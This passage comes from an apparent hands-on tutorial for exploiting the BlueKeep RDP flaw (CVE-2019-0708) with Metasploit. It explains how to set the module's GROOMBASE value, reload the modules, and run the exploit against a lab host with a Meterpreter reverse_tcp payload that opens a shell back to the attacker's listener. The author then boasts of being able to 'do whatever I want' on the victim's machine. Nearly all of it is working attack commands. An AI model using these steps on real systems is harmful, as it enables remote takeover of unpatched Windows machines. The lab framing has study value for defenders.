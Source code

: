 * * *

###### SETUP YOUR EXPLOIT

Depending on the operating system you are using, the path to your Metasploit directory may be different from the example described below. To find out the path of your **Metasploit** you can use the `locate` command.

```bash
sudo nano /opt/metasploit-framework/embedded/framework/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb
```

Find the below line and replace the **GROOMBASE** with the one you found in the previous step.

```bash
# This works with Virtualbox 6
'Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Virtualbox 6)',
{
 'Platform' => 'win',
 'Arch' => [ARCH_X64],
 'GROOMBASE' => 0xfffffa8001804000
}
```

**Important**: Rekall removes four 'f' at the beginning of the address string so you must add it manually to get 18 characters of length. When you are done with your file, use CTRL + x to save it, then reload all Metasploit modules using the below command.

```bash
msf5 > reload_all
```

You are all done !! You can start over the process of your attack on Metasploit as you did earlier but now we will also specify the **GROOMSIZE** value.

```bash
msfconsole
msf5 > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set RHOSTS 192.168.1.105
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set LHOST 192.168.1.102
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set LPORT 4444
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set TARGET 2
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set GROOMSIZE 200
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > exploit
```

**Output**

![image-9](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/ef414d05cfbab3c223121f74b2a840d0-9.png "Image-9")

As you can see on the above screenshot, a **Meterpreter** session was created allowing me now to do whatever I want on my victim's machine. Regarding the **GROOMSIZE**, I used 200MB since my VM is running 2 processors with 4GB of ram. But for a common virtual machine of 2GB of RAM running on one proc, the correct value could be around 50MB.
